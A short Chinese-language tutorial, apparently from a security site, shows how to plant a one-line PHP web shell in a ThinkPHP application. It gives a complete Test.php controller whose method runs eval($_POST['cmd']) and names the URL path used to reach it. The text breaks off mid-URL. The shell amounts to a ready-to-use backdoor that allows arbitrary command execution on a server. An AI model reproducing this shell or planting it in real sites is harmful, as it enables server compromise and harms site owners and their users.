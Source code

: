 Thinkphp 专用shell
==================

一、漏洞简介
------------

基于thinkphp框架的一句话写法
thinkphp框架使用入口文件调用控制器，直接写一句话可能会有解析问题导致无法执行指令，研究了一下把一句话套入框架控制器的方法，分享给大家参考，

二、漏洞影响
------------

三、复现过程
------------

在index的控制器文件夹下建立Test.php文件，代码如下:

    <?php 
    namespace app\index\controller; 

    class Test 

    { 

        public function test() 

        { 

        eval($_POST["cmd"]); 

        } 

    }

一句话的地址就是http://www.0-sec.org/index/tes
